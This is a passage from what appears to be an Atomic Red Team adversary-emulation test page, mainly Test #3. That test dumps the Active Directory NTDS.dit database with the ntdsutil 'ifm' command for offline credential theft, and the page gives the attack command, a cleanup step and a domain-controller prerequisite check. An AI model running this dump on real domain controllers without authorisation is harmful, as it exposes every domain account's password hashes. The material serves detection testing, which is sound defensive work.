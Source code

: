 ```cmd
mkdir #{extract_path}
```

<br/>
<br/>

## Atomic Test #3 - Dump Active Directory Database with NTDSUtil

This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped using NTDSUtil for offline credential theft attacks. This capability
uses the "IFM" or "Install From Media" backup functionality that allows Active Directory restoration or installation of
subsequent domain controllers without the need of network-based replication.

Upon successful completion, you will find a copy of the ntds.dit file in the C:\Windows\Temp directory.

**Supported Platforms:** Windows

**auto_generated_guid:** 2364e33d-ceab-4641-8468-bfb1d7cc2723

#### Inputs:

| Name          | Description                                | Type | Default Value                          |
| ------------- | ------------------------------------------ | ---- | -------------------------------------- |
| output_folder | Path where resulting dump should be placed | path | C:&#92;Windows&#92;Temp&#92;ntds_T1003 |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
mkdir #{output_folder}
ntdsutil "ac i ntds" "ifm" "create full #{output_folder}" q q
```

#### Cleanup Commands:

```cmd
rmdir /q /s #{output_folder} >nul 2>&1
```

#### Dependencies: Run with `command_prompt`!

##### Description: Target must be a Domain Controller

##### Check Prereq Commands:

```cmd
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT
```

##### Get Prereq Commands:
